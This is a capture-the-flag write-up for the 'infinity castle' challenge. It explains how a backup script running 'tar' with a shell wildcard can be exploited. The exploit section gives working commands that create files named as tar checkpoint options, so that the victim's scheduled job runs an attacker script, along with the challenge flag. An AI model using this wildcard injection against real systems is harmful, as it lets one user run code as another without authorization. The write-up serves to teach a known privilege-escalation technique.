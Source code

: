# infinity castle

## Write-up 
The description of this challenge contained a hint on how to solve it, which was to monitor.

Once on the server, if we check the current processes, we can see a script being executed by user zeta (we can't know the frequency, but since it was reapting, it's probably a cron job).

```bash
zeta          84  0.0  0.0   9932  2764 ?        S    16:38   0:00 /bin/bash /tmp/backup
```

**Note** : You can also find the script if you just search in the folders of the server. You will just need to assume that it's being executed afterward.

Now let's check the content of the script.

```bash
#!/bin/bash 

PATH=$(/usr/bin/getconf PATH || /bin/kill $$)

if [ "$(ls -A /home/zeta/work)" ];then 
        cd /home/zeta/work
        tar cvf /home/zeta/backup.tar *
        rm /home/zeta/work/*
fi
sleep 10
```
The line that interests us in this script is this one: 

```bash
tar cvf /home/zeta/backup.tar *
```
The use of wildcard can be critical with some commands, tar is one of those commands. The idea is that tar has some options that let you define and execute some actions at specific checkpoints, so what you can do is give a file an **option** name, so when the tar takes it, it will consider it an option and not a file, thus doing what the options represent.

### Exploit 
The working directory will be `/home/zeta/work`, since it's the folder from which the tar command is taking the files.

1] we will start by preparing the script, since our goal is just to get the flag we don't need to get a shell.

```bash
echo "cat /flag > /tmp/cracked-flag" > shell.sh
```

2] Now we define the action that will be executed at the checkpoint:

```bash
echo "" > "--checkpoint-action=exec=sh shell.sh"
```

3] The last thing is defining the frequency of checkpoints, and since we want our script to get executed immediately, we will make it 1:

```bash
echo "" > --checkpoint=1
```

4] We just wait until Zeta executes the script and triggers our checkpoint.

5] Read the flag:

```bash
cat /tmp/cracked-flag
```

## Flag

`shellmates{T|-|4t_WAS_such_4_*WILD*_C0MM4ND}`
